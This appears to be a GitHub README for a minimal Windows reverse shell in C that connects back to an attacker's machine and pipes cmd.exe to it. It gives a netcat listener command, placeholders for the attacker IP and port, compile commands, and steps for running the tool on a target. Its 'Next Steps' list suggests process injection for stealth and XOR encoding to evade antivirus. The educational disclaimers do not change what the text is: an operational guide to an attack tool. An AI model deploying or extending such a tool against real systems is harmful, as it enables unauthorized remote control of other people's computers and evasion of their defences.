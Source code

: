 Simple Reverse Shell in C
A minimal reverse shell written in C for Windows. The program establishes a TCP connection to a remote attacker's machine, redirecting cmd.exe input/output for remote control.

⚠ Warning: This project is intended for educational and authorized penetration testing purposes only. Unauthorized use is illegal.




Features
✅ Connects to a remote listener (attacker's machine)
✅ Redirects standard input/output to the attacker's terminal
✅ Works on Windows (uses winsock2.h)
✅ Simple and lightweight (~10 KB compiled)

Usage
1. Start a Listener on the Attacker's Machine
Use Netcat (nc) to listen for incoming connections:


nc -lvnp 4444
🔹 Replace 4444 with the port number you plan to use.

2. Modify and Compile the Reverse Shell
Edit reverse_shell.c and change:

#define REMOTE_IP "192.168.1.100"  // Change to your attacker's IP
#define REMOTE_PORT 4444           // Change to your listening port
Compile using MinGW (GCC for Windows):


x86_64-w64-mingw32-gcc reverse_shell.c -o reverse_shell.exe -lws2_32
or using Microsoft Visual Studio:


cl reverse_shell.c ws2_32.lib
3. Run the Reverse Shell on the Target Machine
Execute the compiled reverse_shell.exe:


reverse_shell.exe
Once executed, the target machine will connect to the attacker's listener.

4. Get Control of the Target Machine
After the connection is established, the attacker's Netcat shell will allow remote command execution.

Code Explanation
The key parts of reverse_shell.c:

Winsock Initialization (WSAStartup())
Sets up Windows networking for socket communication.
Socket Connection (connect())
Connects to the attacker's IP and port.
I/O Redirection (CreateProcess())
Redirects standard input/output to the attacker's machine.
Cleanup (WSACleanup())
Ensures proper release of network resources.
Disclaimer


🚨 Legal Warning:
This software is provided for educational purposes only. Unauthorized use, hacking, or deploying this code on systems without permission is illegal and may result in severe penalties.

⚠ Use this tool only with explicit authorization from the target system owner.
By using this software, you agree that the authors are not responsible for any misuse or illegal activities.

Next Steps
🔹 Stealth Mode: Hide process execution using process injection.
🔹 Encoding: Evade antivirus detection using XOR encryption.
🔹 Portability: Modify for Linux/Mac compatibility.


